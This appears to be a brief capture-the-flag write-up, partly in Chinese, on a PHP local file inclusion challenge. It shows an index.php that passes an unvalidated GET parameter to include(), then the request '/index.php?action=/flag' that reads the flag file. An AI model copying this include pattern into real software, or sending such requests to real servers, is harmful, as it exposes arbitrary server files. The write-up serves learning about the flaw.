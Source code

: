 ![](<./img/Pasted image 20230128143611.png>)

![](<./img/Pasted image 20230128144500.png>)

```php
<?php
$action = (isset($_GET['action']) ? $_GET['action'] : 'home.php');
if (file_exists($action)) {
	include $action;
} else {
	echo "File not found!";
}
?>
```

`index.php`中存在文件包含漏洞

```
/index.php?action=/flag
```

![](<./img/Pasted image 20230128144442.png>)

#Web #PHP #文件包含 